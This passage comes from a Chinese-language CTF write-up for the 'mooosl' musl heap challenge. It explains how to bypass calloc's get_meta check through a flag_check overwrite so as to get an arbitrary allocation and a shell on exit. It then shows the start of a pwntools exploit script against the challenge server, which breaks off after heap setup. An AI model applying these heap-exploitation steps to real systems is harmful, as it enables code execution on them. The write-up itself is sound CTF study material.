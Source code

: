 ```

  if ( a2 && !is_mul_ok(a2, a1) )
  {
    v3 = 0LL;
    *(_DWORD *)_errno_location(a2, a2, (a2 * (unsigned __int128)a1) >> 64) = 12;
    return v3;
  }
  v2 = a2 * a1;
  v3 = (char *)malloc(a2 * a1);
  if ( !v3 || !flag_check && (unsigned int)get_meta_check((__int64)v3) )
    return v3;
  if ( v2 > 0xFFF )
```
会根据一个flag_check位决定当前分配机制是否为old/new，若是新的机制，会在后续利用get_meta对整个chunk的合法性进行check，若要进行任意地址分配，就必须在malloc后绕过这个check  
这里注意到malloc后会对分配chunk的header进行设置：
```
    *(uint16_t *)(p-2) = (size_t)(p-g->mem->storage)/UNIT;
    p[-3] = idx;
    set_size(p, end, n);
    return p;
```
所以在分配到stdin前，我们可以先分配chunk到这个flag_check位置，利用malloc中的set_size将其设置为非0，这样在malloc返回进入calloc时就会关闭check, 进而在下次calloc分配时可以任意地址分配(注意malloc时简单的chunk头check，需要将chunk分配到stdin前方非0位置)。  
**到此，便绕过了所有check并布置好stdin，最后触发exit功能get shell即可**
### 0x03 EXP
```
from pwn import *

context.log_level="debug"

def cmd1(note):
   p.sendlineafter(b"option: ",str(note).encode())

def cmd2(note):
   p.sendlineafter(b": ",str(note).encode())

def cmd3(note):
   p.sendafter(b": ",note)

def add(k_size,k_note,v_size,v_note):
  cmd1(1)
  cmd2(k_size)
  cmd3(k_note)
  cmd2(v_size)
  cmd3(v_note)

def query(k_size,k_note):
  cmd1(2)
  cmd2(k_size)
  cmd3(k_note)

def delete(k_size,k_note):
   cmd1(3)
   cmd2(k_size)
   cmd3(k_note)

#p=process("./mooosl")
p=remote("mooosl.challenges.ooo",23333)
#malloc: struct key value
#free: key value 
for i in range(9):
   add(0x30,b"123456\n",0x30,b"aaaa\n")
```